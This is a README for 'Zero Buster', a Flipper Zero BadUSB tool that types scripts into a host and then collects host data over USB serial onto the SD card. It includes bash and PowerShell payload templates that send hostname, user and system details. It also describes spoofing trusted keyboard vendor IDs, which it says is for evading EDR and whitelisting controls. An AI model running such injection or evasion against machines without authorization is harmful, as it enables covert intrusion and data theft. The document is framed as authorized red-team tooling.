

[](README.md)
[](README_es.md)

# Zero Buster

<p align="center">
  
</p>

Advanced security auditing and adversary simulation tool for **Flipper Zero** implementing a **bidirectional (duplex) BadUSB** attack vector with local data exfiltration over **USB CDC serial emulation**, eliminating any dependency on network connectivity, Internet access, or remote C2 infrastructure.

The application executes automated command injection via keyboard emulation (HID) with full international layout support through stock `.kl` keyboard map files (`en-US` by default). It then dynamically switches the USB stack to a virtual COM port to capture host telemetry, command output, or files directly to the MicroSD card (`/ext/apps_data/zero_buster/`). It also includes real-time **hardware identity spoofing (USB Spoofing)** to bypass EDR software and peripheral control white-listing policies.

---

## Concept: Why Zero Buster?

In *Mega Man Battle Network*, Lan Hikari plugs his PET directly into any terminal or machine via a physical link:
> **"Jack in! MegaMan.EXE, Transmit!"**

**Zero Buster** brings that exact philosophy to real-world hardware auditing using the **Flipper Zero**:
1. **Jack In (HID Injection):** When plugged in, the Flipper emulates a trusted USB keyboard and injects the selected script (Battle Chip).
2. **Duplex Channel (CDC Switch):** The Flipper seamlessly switches its USB descriptor to a virtual serial port (`/dev/ttyACM*` on Linux / `COM*` on Windows).
3. **Data Exfiltration (Loot):** The host machine transmits data directly back to the Flipper's MicroSD card without touching the local network.

---

## Key Features

### 1. Full Layout Support (.kl) with en-US by Default
Unlike tools with fixed or hardcoded layouts, **Zero Buster** natively uses Flipper Zero's standard keyboard layout library (`.kl`):
* **Dynamic loading from MicroSD:** Scans and loads layout files from `/ext/badusb/assets/layouts/` (`en-US`, `es-ES`, `de-DE`, `fr-FR`, `it-IT`, etc.).
* **US Default:** `en-US` is loaded by default on startup with built-in HAL `hid_asciimap` fallback.
* **On-screen rotation:** Use Left/Right on the D-Pad to cycle through all available layouts installed on your Flipper.

### 2. Modular Payloads in `apps_data`
* The application automatically scans the standard app data directory:
  ```text
  /ext/apps_data/zero_buster/payloads/
  ```
* Place your custom scripts (`.ps1`, `.sh`, `.txt`) directly into this directory.
* Use the D-pad to select which payload to inject in real time.
* The application ensures the directory structure exists on every startup without generating intrusive scripts, giving the user full control over their payload library.

### 3. Hardware Identity Spoofing (Anti-EDR & Custom HID)
Enterprise endpoint protection (CrowdStrike, Microsoft Defender for Endpoint, Trellix) often flags or blocks USB devices reporting as *Flipper Devices Inc.* (`VID 0x0483`).
* **Built-in spoofing presets:**
  * **Logitech K120:** `VID 0x046D` / `PID 0xC31C` (Standard office keyboard).
  * **Dell QuietKey:** `VID 0x413C` / `PID 0x2003`.
  * **Apple Magic Keyboard:** `VID 0x05AC` / `PID 0x0220`.
  * **Flipper Default:** `VID 0x0483` / `PID 0x5740`.
  * **Custom (SD / In-App):** Loads custom parameters from `/ext/apps_data/zero_buster/custom_hid.txt` or configure them using the on-device hex editor.
* When plugged in, Device Manager or `lsusb` will recognize the Flipper as a legitimate office peripheral or cloned device.

### 4. Automatic USB Bus Release (CLI VCP)
Unlike BadUSB scripts that lock the USB bus and prevent **qFlipper** or CLI from connecting:
* The application takes exclusive ownership of `RECORD_CLI_VCP` during telemetry capture.
* Upon completion (or when pressing `Back` to cancel), `zero_buster_release_usb()` is invoked:
  * Restores original USB configuration.
  * Cycles the serial interface (`cli_vcp_disable()` -> `cli_vcp_enable()`).
* **Result:** qFlipper and Flipper CLI resume functioning immediately without needing to reconnect the USB cable or reboot the device.

---

## Code Structure

The source code follows the canonical Flipper Zero architectural layout (`helpers/`, `views/`, `scenes/`):

```text
Zero_Buster/
├── application.fam                  # Application manifest (appid: zero_buster)
├── assets/                          # Graphic assets
│   └── icon.png                     # Official 10x10 icon
├── zero_buster.h                    # Main header: structs, enums, paths and context
├── zero_buster.c                    # Entry point (zero_buster_app) and lifecycle
├── helpers/                         # Subsystem helpers
│   ├── zero_buster_hid.h / .c       # HID injection and USB hardware profiles
│   ├── zero_buster_storage.h / .c   # MicroSD handling: layouts, custom_hid and loot
│   └── zero_buster_worker.h / .c    # Worker thread: BadUSB injection and CDC serial RX
├── views/                           # Canvas rendering and visual feedback
│   └── zero_buster_view.h / .c      # Canvas callbacks: main menu, HID editor and progress
├── scenes/                          # State machine and user input handling
│   ├── zero_buster_scene.h          # Unified scene handlers declaration
│   ├── zero_buster_scene_main.c     # Main menu navigation and instant execution
│   ├── zero_buster_scene_about.c    # Credits, version and repository links
│   ├── zero_buster_scene_edit_hid.c # Interactive VID/PID/Strings hex editor
│   └── zero_buster_scene_status.c   # Active status, cancellation and finish handler
├── payloads/                        # Example reference templates
│   ├── 01_example_linux.sh          # Linux: Example recon and <<<EOF>>> closing
│   └── 02_example_windows.ps1       # Windows: Example recon and <<<EOF>>> closing
├── screenshots/                     # Interface screenshots
│   └── main_menu.png                # Main menu screenshot
├── .catalog/                        # Catalog metadata for Flipper Lab / Flip Catalog
│   ├── changelog.md                 # Version changelog
│   └── screenshots/                 # Catalog screenshots
├── README_es.md                     # Spanish documentation
└── README.md                        # English documentation (default)
```

---

## Compilation and Installation

### Build with uFBT (Standalone SDK)
```bash
# Compile .fap binary
ufbt

# Compile and launch directly on connected Flipper Zero
ufbt launch
```
*(Or manually copy the built `.fap` file to `/ext/apps/USB/` on your MicroSD card).*

---

## On-Screen Controls

### Main Menu:
* **[OK] (Short press):**
  * When highlighted on `PID:`, `KEY:` or `HID:`, immediately triggers **Jack In!** to inject and exfiltrate without navigating to the bottom row.
  * When highlighted on `Cfg:`, opens the interactive Custom HID editor.
  * When highlighted on `Info:`, opens the credits and author screen.
* **Up / Down:** Navigate between settings:
  1. `PID:`: Selected payload (scans `/ext/apps_data/zero_buster/payloads/`).
  2. `KEY:`: Keyboard layout (`en-US` by default, plus stock `.kl` layouts from `/ext/badusb/assets/layouts/`).
  3. `HID:`: Hardware USB spoof profile (`Logitech K120`, `Dell`, `Apple`, `Flipper`, `Custom`).
  4. `Cfg:`: `[ Edit Custom HID > ]` *(Visible when `HID: Custom` is selected)*.
  5. `Info:`: `[ Credits / About > ]` (Displays version, author, GitHub and LinkedIn links).
* **Left / Right:** Change value of highlighted setting (payload, layout, spoof profile).
* **Footer bar:** Dynamically indicates the action performed when pressing OK (`[ OK = Jack In! ]`, `[ OK = Edit Custom HID ]` or `[ OK = View Credits ]`).
* **[Back]:** Cancels active operation or exits the application.

### Credits & About Screen (`Info / About`):
Accessed by pressing **[OK]** on `Info: [ Credits / About > ]`:
* Displays version (`Zero Buster v1.1`), author (**Javier Julve**) and links:
  * GitHub: `github.com/DonJulve`
  * LinkedIn: `in/javier-julve-yubero`
* **[OK] / [Back]:** Returns to the main menu (`[ OK / Back = Back ]`).

### On-Device HID Editor (`HID Editor`):
Accessed by pressing **[OK]** on `Cfg: [ Edit Custom HID > ]` (or long-pressing **[OK]** on `HID: Custom`):
* **Left / Right:** Move cursor across hex nibbles (0-F) of `VID`, `PID`, manufacturer (`Mfg`), product (`Prd`), and `[ SAVE & EXIT ]`.
* **Up / Down:** Increment / decrement hex nibble or cycle manufacturer/product presets.
* **[OK] / [Back]:** Saves configuration to `/ext/apps_data/zero_buster/custom_hid.txt` and returns to menu (`[ Back = Save & Exit ]`).

### Canceling Active Operation:
During any active state (Charging NetLink, Jack In Transmitting, Switching CDC, Exfiltrating), the screen shows:
```
[ Back = Cancel ]
```
Pressing **[Back]** performs a clean teardown: terminates the worker thread, releases the USB stack, and returns to the main menu.

---

## Creating Custom Payloads

Zero Buster is modular. To add custom scripts, place them in:
```text
/ext/apps_data/zero_buster/payloads/
```

### Duplex Protocol (4 Required Phases)

Every compatible payload follows this sequence:

1. **Initial Injection (BadUSB):** Flipper triggers the host terminal (`Win + R` -> PowerShell on Windows, `Ctrl + Alt + T` on Linux) and types the script.
2. **Dynamic Serial Port Discovery:** Flipper switches from USB HID to USB CDC (`/dev/ttyACM*` on Linux / `COM*` on Windows). The script polls until the OS detects the new serial port.
3. **Settling Delay & Serial Open:** After finding the port, the script waits 500-1000 ms to give the Flipper time to prepare `/ext/apps_data/zero_buster/loot/loot_XXX.txt`. It then opens the port at **115200 baud** with **DTR** and **RTS** asserted.
4. **End-of-Transmission Marker (`<<<EOF>>>`):** When done streaming, the script **must send `<<<EOF>>>`** and close the port. This signals the Flipper to flush the file, restore the USB stack, and display *Mission Complete!*.

---

### Reference Template for Linux (`.sh`)

Create a script with `.sh` extension (e.g. `01_example_linux.sh`):

```bash
#!/bin/bash
# 1. Wait for Flipper to switch from HID to CDC
for i in $(seq 1 60); do
    dev=$(ls -t /dev/ttyACM* 2>/dev/null | head -n1)
    [ -n "$dev" ] && break
    sleep 0.2
done

# 2. If port is detected, stream telemetry
if [ -n "$dev" ]; then
    sleep 0.5
    (
        echo "=== ZERO BUSTER (LINUX TELEMETRY) ==="
        echo "Host: $(hostname)"
        echo "User: $(whoami)"
        echo "Kernel: $(uname -r)"
        echo "Date: $(date)"
        echo "-------------------------------------"
        uptime
        echo "====================================="
        # 3. Mandatory closing marker
        echo "<<<EOF>>>"
    ) > "$dev"
fi
```

---

### Reference Template for Windows (`.ps1`)

Create a script with `.ps1` extension (e.g. `02_example_windows.ps1`):

```powershell
# 1. Load .NET SerialPort assembly
Add-Type -AssemblyName System.IO.Ports

# 2. Poll for the virtual COM port
$targetPort = $null
for ($i = 0; $i -lt 60; $i++) {
    $ports = [System.IO.Ports.SerialPort]::GetPortNames()
    if ($ports.Count -gt 0) {
        $targetPort = ($ports | Sort-Object { [int]($_ -replace '\D') } | Select-Object -Last 1)
        if ($ports.Count -gt 1 -or $targetPort -ne "COM1") { break }
    }
    Start-Sleep -Milliseconds 250
}

if (-not $targetPort -and $ports.Count -gt 0) {
    $targetPort = $ports[-1]
}

if ($targetPort) {
    # 3. Settling pause
    Start-Sleep -Milliseconds 500

    $serial = New-Object System.IO.Ports.SerialPort $targetPort, 115200, None, 8, One
    $serial.DtrEnable = $true
    $serial.RtsEnable = $true

    try {
        $serial.Open()
        $serial.WriteLine("=== ZERO BUSTER (WINDOWS TELEMETRY) ===")
        $serial.WriteLine("Host: " + $env:COMPUTERNAME)
        $serial.WriteLine("User: " + $env:USERNAME)
        $serial.WriteLine("---------------------------------------")
        $serial.WriteLine("Working Directory: " + (Get-Location).Path)
        $serial.WriteLine("=======================================")
    } catch {
        # Silent exception handling
    } finally {
        # 4. Mandatory closing marker
        try {
            $serial.WriteLine("<<<EOF>>>")
            Start-Sleep -Milliseconds 200
            $serial.Close()
        } catch {}
    }
}
exit
```

---

## Exfiltrated Data (Loot)

All data streamed over USB CDC is saved incrementally to the MicroSD:
```text
/ext/apps_data/zero_buster/loot/loot_001.txt
/ext/apps_data/zero_buster/loot/loot_002.txt
...
```
Upon successful transmission, the screen displays:
```
Mission Complete!
Total: XXXX bytes
File: loot_XXX.txt
[ OK / Back = Exit ]
```

If the operation is canceled (`Back`) or times out without data, no empty or partial files are saved, keeping your storage clean.

---

## Author & Credits

* **Developer:** Javier Julve ([@DonJulve](https://github.com/DonJulve))
* **Official Repository:** [Zero Buster on GitHub](https://github.com/DonJulve/Zero_Buster)
* **LinkedIn:** [Javier Julve Yubero](https://www.linkedin.com/in/javier-julve-yubero)

---

## Disclaimer

This software and its associated tools are designed, developed, and distributed **strictly for educational, academic research, and authorized security auditing purposes** (penetration testing and Red Team engagements under informed consent).

1. **Authorized Use:** Using this tool on computer systems or networks without explicit written permission from their legitimate owners is strictly illegal and may constitute a criminal offense.
2. **Limitation of Liability:** The author (@DonJulve) assumes no liability for direct or indirect damages, data loss, legal penalties, or criminal consequences arising from misuse or illegal activities conducted with this software.
3. **User Responsibility:** By downloading, cloning, compiling, or executing this software, the user assumes full, exclusive, and non-transferable legal and ethical responsibility for its use.
